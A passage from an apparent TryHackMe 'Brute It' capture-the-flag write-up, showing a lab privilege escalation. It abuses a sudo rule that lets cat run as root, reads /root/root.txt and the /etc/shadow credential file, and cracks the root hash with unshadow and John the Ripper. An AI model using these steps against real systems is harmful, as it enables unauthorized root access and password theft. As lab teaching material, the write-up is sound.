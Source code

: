 We are in! As john.  Check around quickly to find the `user.txt`

```shell
john@bruteit:~$ ls
user.txt
```

## Now let's get root

Let's check what `john` is having permission to run as root using `sudo`:

``` shell
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

`john` can run `cat` as **root** using `sudo`.  Let's `cat` the `root.txt` flag:

```shell
 john@bruteit:~$ sudo cat /root/root.txt
THM{[REDACTED]}
john@bruteit:~$
```

There is one last task left to do.  Discover the **root** `password`.

Let's use the `cat` command to get the `/etc/passwd` and `/etc/shadow` files on our machine to crack the password again using `JohnTheRipper`.

This time, we can use the `unshadow` command to prepare a file for `John`:

```shell
unshadow passwd.txt shadow.txt > pass.txt
```

Now let's 'John' crack the file:

```shell
john --wordlist=/usr/share/wordlist/rockyou.txt pass.txt

john --show pass.txt
root:[REDACTED]:0:0:root:/root:/bin/bash
```

There it is! The **root password** is [REDACTED]

## COMPLETED

![Complete!](./_attachment/thm-brute-it-header2.png)

[pdf-version](./THM-Brute%20It.pdf)
